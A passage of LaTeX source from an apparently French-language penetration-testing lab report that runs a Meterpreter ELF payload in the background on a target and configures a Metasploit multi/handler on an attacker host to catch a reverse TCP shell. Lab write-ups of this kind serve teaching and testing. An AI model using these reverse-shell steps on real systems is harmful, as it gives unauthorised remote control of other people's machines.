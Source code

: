\documentclass[12pt,a4paper,openany]{report}
\begin{document}
	
	\subsubsection{Exécution de la charge utile}
	
	\begin{lstlisting}[caption=Lancement en Arrière-Plan]
		$ chmod +x meterpreter.elf
		$ ./meterpreter.elf &
		[1] 4779
	\end{lstlisting}
	
	\textbf{Résultat :} Cette sortie confirme l'exécution correcte de l'action pratique dans l'environnement de laboratoire. Elle apporte des éléments vérifiables pour contrôler l'état du service, du flux ou de la configuration avant l'étape suivante. Sur le plan pédagogique, elle relie l'opération réalisée aux objectifs d'apprentissage offensive/défensive.
	
	
	\textbf{Note :} L'exécution en arrière-plan (\texttt{\&}) permet de conserver le shell Telnet actif en cas de problème avec Meterpreter.
	
	\subsection{Configuration du Handler Metasploit}
	
	\subsubsection{Lancement du Handler}
	
	Sur la machine attaquante (Parrot), nous configurons le handler pour recevoir la connexion :
	
	\begin{lstlisting}[caption=Configuration du Multi Handler]
		$ msfconsole -q
		
		[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
		[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD linux/x64/meterpreter/reverse_tcp
		PAYLOAD => linux/x64/meterpreter/reverse_tcp
		
		[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 192.168.100.150
		LHOST => 192.168.100.150
		
		[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 4445
		LPORT => 4445
		
		[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit
		
		[*] Started reverse TCP handler on 192.168.100.150:4445
	\end{lstlisting}
	
\end{document}
